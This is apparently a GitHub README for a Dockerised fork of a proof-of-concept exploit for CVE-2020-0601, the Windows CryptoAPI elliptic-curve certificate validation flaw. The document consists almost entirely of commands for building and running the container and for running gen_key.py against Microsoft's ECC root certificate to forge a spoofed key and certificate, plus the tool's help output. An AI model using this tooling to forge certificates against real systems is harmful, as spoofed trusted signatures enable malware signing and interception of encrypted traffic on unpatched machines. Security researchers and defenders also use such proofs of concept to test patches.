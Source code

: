 # CVE-2020-0601

I give full credit to https://github.com/kudelskisecurity/chainoffools. This fork just adds a Dockerfile which creates a pre-configured environment.

## 💿 Build Docker Image
```bash
docker build -t cve-2020-0601 .
```

## 🚢 Docker container

To run the container with a bash shell

```bash
docker run -it --rm -v $(pwd):/app -w /app cve-2020-0601 bash
```

## ⚒️ Forging certificate

To forge certificate using default settings

```bash
docker run -it --rm -v $(pwd):/app -w /app cve-2020-0601
```

## ☣️ Hazardou

Run the docker container with the preset environment

```bash
docker run -it --rm -v $(pwd):/app -w /app cve-2020-0601 bash
```

Run the gen_key.py CLI debug

```bash
pipenv run python gen_key.py -p tools/MicrosoftECCProductRootCertificateAuthority.cer -d
```

Running `pipenv run python gen_key.py --help`

```
Usage: gen_key.py [OPTIONS]

  Create forged key from EC certificate

Options:
  -p, --cert-path TEXT  Full path to EC certificate
  -o, --output TEXT     Full output path to write forged certificate to
  -k, --key-pem TEXT    Full output path to write key pem to
  -d, --debug           Debug does not write keys to dick
  --help                Show this message and exit.          Show this message and exit.
  ```